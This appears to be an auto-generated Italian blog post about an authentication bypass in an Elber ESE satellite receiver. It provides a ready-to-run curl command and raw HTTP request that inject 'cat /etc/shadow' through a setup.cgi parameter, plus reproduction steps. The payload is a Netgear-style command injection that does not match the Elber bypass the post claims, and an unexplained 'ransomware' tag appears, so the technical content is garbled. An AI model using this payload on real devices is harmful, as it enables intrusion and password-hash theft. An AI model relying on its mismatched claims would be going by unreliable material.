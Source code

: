 ```yaml
---
layout: post
title: '[webapps] Elber ESE DVB-S/S2 Satellite Receiver 1.5.x - Authentication Bypass' 
date: 2024-08-24
categories: [security, ransomware]
---
```


# Elber ESE DVB-S/S2 Satellite Receiver 1.5.x - Authentication Bypass

## Introduzione
Elber ESE DVB-S/S2 Satellite Receiver 1.5.x ha una vulnerabilità di sicurezza critica che consente l'accesso non autorizzato attraverso il bypass dell'autenticazione. Questa vulnerabilità può compromettere la sicurezza dei dati e del sistema.

## Dettagli della vulnerabilità
La vulnerabilità si verifica nel software Elber ESE DVB-S/S2 Satellite Receiver versione 1.5.x. Consente a un attaccante di bypassare l'autenticazione e guadagnare l'accesso al sistema. Il problema risiede nel fatto che il software non gestisce correttamente le richieste di autenticazione.

## Esempio di Payload Semplice
Ecco un esempio di payload semplice per questa vulnerabilità:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: 192.168.1.1' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Connection: keep-alive' \
    $'http://192.168.1.1/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=cat+%2Fetc%2Fshadow&curpath=%2F&currentsetting.htm=1'
```

## Esempio di Payload Avanzato
Non è stato fornito un payload avanzato per questa vulnerabilità.

## Spiegazione Tecnica dello Script o Comando
Il comando `curl` invia una richiesta GET al dispositivo vulnerabile. Il payload viene inviato attraverso le intestazioni HTTP e l'URL della richiesta. Nell'URL, il parametro `cmd` contiene il comando che l'attaccante desidera eseguire sul dispositivo, in questo caso `cat /etc/shadow`, che legge il file che contiene le password degli utenti del sistema.

## Procedura per riprodurre la vulnerabilità
Per riprodurre la vulnerabilità, è necessario:

1. Installare `curl`.
2. Aprire un terminale.
3. Copiare ed eseguire il comando `curl` sopra riportato, sostituendo `192.168.1.1` con l'indirizzo IP del dispositivo vulnerabile.

## Richiesta HTTP
La richiesta HTTP generata dal comando `curl` è la seguente:

```http
GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=cat+%2Fetc%2Fshadow&curpath=%2F&currentsetting.htm=1 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
```

## Impatto della vulnerabilità
Un attaccante può utilizzare questa vulnerabilità per bypassare l'autenticazione e ottenere l'accesso non autorizzato al sistema. Ciò può portare alla compromissione della sicurezza dei dati e del sistema.

## Patch e Mitigazioni
Non è stata rilasciata alcuna patch o mitigazione per questa vulnerabilità al momento della pubblicazione.

## Conclusione
Questa vulnerabilità è molto grave in quanto consente l'accesso non autorizzato al sistema. È importante monitorare la presenza di eventuali patch o mitigazioni rilasciate e applicarle il più rapidamente possibile.

## Considerazioni
Questa vulnerabilità sottolinea l'importanza di una corretta gestione delle procedure di autenticazione in un sistema. Un singolo errore può portare a gravi compromissioni della sicurezza.

